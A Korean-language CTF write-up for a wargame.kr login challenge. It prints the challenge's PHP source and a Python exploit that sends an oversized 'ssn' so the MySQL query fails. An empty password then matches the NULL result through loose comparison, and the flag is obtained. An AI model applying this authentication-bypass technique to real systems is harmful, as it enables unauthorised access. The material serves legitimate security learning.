


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

또 로그인이다.



FLAG를 얻을 수 있는 로직을 확인해보면 POST에 user, ssn, pass변수가 있어야하고, pass와 get_password함수의 리턴 값과 같아야고 user가 admin이여야 한다.

```php
if( (isset($_POST['user']) && isset($_POST['ssn']) && isset($_POST['pass'])) ){
 
 sleep(2); // do not bruteforce !!!! this challenge is not for bruteforce!!

 if($_POST['pass'] == get_password($_POST['user'],$_POST['ssn'])){

  if($_POST['user'] == "admin"){
   echo "Login Success!!! PASSWORD IS : <b>".auth_code("login with crypto! but..")."</b>";
  }else{
   echo "Login Success. but you r not 'admin'..";
  }
 }else{
  echo "Login Failed";
 }

}
```

공격의 핵심부인 get_password함수를 보자.

1. mysql_real_escape_string함수로 입력값을 처리하므로 SQLi는 힘들어 보인다. 

2. ssn데이터를 sucker_enc함수의 인자로 넣고 enc함수를 8번 호출한다.

3. enc함수는 Triple DES를 이용하여 인자로 들어온 값을 암호화 한후 base64로 인코딩한 뒤 hex string으로 리턴한다.

```php
function enc($str){
 $s_key = "L0V3LySH:butsheismyxgf..";
 $s_vector_iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_3DES, MCRYPT_MODE_ECB), MCRYPT_RAND);
 $en_str = mcrypt_encrypt(MCRYPT_3DES, $s_key, $str, MCRYPT_MODE_ECB, $s_vector_iv);
 $en_base64 = base64_encode($en_str);
 $en_hex = bin2hex($en_str);
 return $en_hex;
}

function sucker_enc($str){
 for($i=0;$i<8;$i++) $str = enc($str);
 return $str;
}

function get_password($user,$ssn){
 db_conn();
 $user = mysql_real_escape_string($user);
 $ssn  = mysql_real_escape_string($ssn);
 $result = mysql_query("select user_ps from accounts where user_id='{$user}' and encrypt_ss='".sucker_enc($ssn)."'");
 $row = mysql_fetch_array($result);
 if ($row === false) {
  die("there is not valid account!");
 }
 return $row[0]; 
}
```

암호화와 암호화의 결과를 다시 암호화의 입력 값으로 들어가는 반복문이 있기때문에, 블록 암호 알고리즘에 의해서 점차 크기가 증가할 것이다.

그렇다면, 다음과 같은 공략으로 공격해보자.

1. ssn을 처음부터 크게주면 sucker_enc의 리턴값은 매우 큰 용량의 데이터가 될 것이다.

2. mysql_query함수를 처리 중 mysql가 처리할 수 있는 양 이상의 데이터가 들어와서 뻑가고, result는 False값이 됨

3. mysql_fetch_array는 boolean type의 변수가 올 수 없기 때문에 Error가 나고, row는 NULL값이 됨

4. Loose comparisons(==)에 의해서 NULL과 pass를 비교 이때 pass가 ''이면 True를 반환

5. user가 admin이라면 FLAG획득

```python
import urllib
import urllib.request

url                 = 'http://wargame.kr:8080/login_with_crypto_but/index.php'
headers             = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
data                = urllib.parse.urlencode({'user':'admin', 'ssn':'A'*99999, 'pass':''}).encode()
request             = urllib.request.Request(url, headers = headers, data = data)
response            = urllib.request.urlopen(request)
print(response.read().decode())

<br />
<b>Warning</b>:  mysql_fetch_array() expects parameter 1 to be resource, boolean given in <b>/var/www/html/login_with_crypto_but/index.php</b> on line <b>53</b><br />
Login Success!!! PASSWORD IS : <b>a5113cbf58b42dc90a785d81a673b2fbd77f3ffe</b><hr />
<form method="post" action="./index.php">
<table>
 <tr><td>Identify</td><td><input type='text' value='guest' maxlength='32' name='user' /></td>
 <tr><td>Social Security</td><td><input type='text' maxlength='6' value='000000' name='ssn' /></td>
 <tr><td>PASSWORD</td><td><input type='text' value='guest' name='pass' /></td>
 <tr><td colspan="2"><input type="submit" value="Login" /></td></tr>
</table>
</form>
<hr />
<a href='./?view-source'>GET SOURCE</a>
```

# **FLAG**

**a5113cbf58b42dc90a785d81a673b2fbd77f3ffe**